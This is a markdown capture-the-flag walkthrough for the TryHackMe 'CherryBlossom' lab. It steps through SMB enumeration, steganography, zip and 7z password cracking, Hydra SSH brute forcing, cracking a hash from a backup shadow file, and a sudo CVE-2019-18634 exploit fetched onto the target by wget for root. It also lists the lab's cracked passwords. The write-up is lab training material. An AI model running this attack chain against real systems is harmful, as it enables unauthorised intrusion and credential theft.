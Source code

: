 # [CherryBlossom](https://tryhackme.com/room/cherryblossom)

## Boot-to-root with emphasis on crypto and password cracking.

# Flags

## Hack the machine and get the flags!

### Journal Flag

_https://github.com/DominicBreuker/stego-toolkit_

1. Port scan with nmap to identify available services

```bash
nmap IP
```

[SCREEN01]

2. The scan reveals an SMB service is running. Examine and access it

```bash
# List available SMB shares without providing credentials
smbclient -L //IP -N

# Connect to the Anonymous share without credentials
smbclient //IP/Anonymous -N

# List contents of the share
ls

# Download the journal.txt file for analysis
get journal.txt
```

[SCREEN02]

3. The `journal.txt` file is base64 encoded. Decode it to reveal its true content

```bash
cat journal.txt | base64 -d > journal
```

4. Using steganography extract the hidden data from PNG image

```bash
pip3 install stegpy
stegpy journal
```

5. Fix the magic numbers to match `.zip` file
   - Replace the first characters with `50 4B 03 04`

```bash
hexedit _journal.zip
```

[SCREEN03]

6. The `.zip` file is password protected. Use John the Ripper to crack it
   - The password is **september**

```bash
zip2john _journal.zip > hash.txt
john hash.txt
unzip _journal.zip
```

[SCREEN04]

7. Inside the ZIP is a file named `Journal.ctz` which is a 7z archive, also password protected
   - The password is **tigerlily**

```bash
# Download the 7z2john script if not available
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/7z2john.pl -O 7z2john
chmod +x 7z2john

# Create a hash from the 7z file
./7z2john Journal.ctz > hash.txt

# Crack the hash using rockyou.txt
john --wordlist=/root/Tools/wordlist/rockyou.txt hash.txt

# If you encounter errors, you may need to install dependencies:
apt-get install liblzma-dev
cpan install Compress::Raw::Lzma
```

[SCREEN05]

8. The extracted contents include a diary with the first flag and important information
   - Usernames: **Anitta**, **Lily**, **Harry**
   - A file containing encoded passwords named: **cherry-blossom**

[SCREEN06]

---

### User Flag

1. From the `Journal.ctz` archive, extract the encoded password list
   - Copy the hash from line 55, decode it, and extract to a list

```bash
cat encoded | base64 -d > cherry-blossom.list
```

[SCREEN07]

2. Brute force SSH login using the discovered usernames and password list
   - The credentials are `lily:Mr.$un$hin3`

```bash
# Create a file with potential usernames
echo -e "lily\nanitta\nharry" > users.txt

# Use Hydra to brute force SSH
hydra -L users.txt -P cherry-blossom.list ssh://IP
```

[SCREEN08]

3. After gaining access as lily, find a backup of the shadow file with password hashes
   - Copy johan's password hash from the backup

```bash
cat /var/backups/shadow.bak
```

[SCREEN09]

4. Crack johan's password hash using our custom wordlist
   - The password is **##scuffleboo##**

```bash
# Save johan's hash to a file on your attacking machine
echo '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' > hash.txt

# Use John the Ripper with the SHA-512 format
john --format=sha512crypt --wordlist=cherry-blossom.list.txt hash.txt
```

[SCREEN10]

5. Switch to johan's account and retrieve the user flag

```bash
# Switch user to johan
su johan

# Enter password: ##scuffleboo##

# Rread the user flag
cat /home/johan/user.txt
```

[SCREEN11]

---

### Root Flag

1. To escalate to root, exploit the sudo vulnerability CVE-2019-18634 (buffer overflow in pwfeedback)

```bash
# On the attacking machine, clone the exploit repository
git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
cd sudo-cve-2019-18634/

# Compile the exploit
gcc exploit.c -o exploit

# Start a simple HTTP server to transfer the exploit
python -m SimpleHTTPServer
```

[SCREEN12]

```bash
cd /tmp

# Download the compiled exploit
wget http://IP:8000/exploit

# Make it executable
chmod +x exploit

# Execute the exploit
./exploit

# Verify we have root access
whoami

# Retrieve the root flag
cat /root/root.txt
```

[SCREEN13]
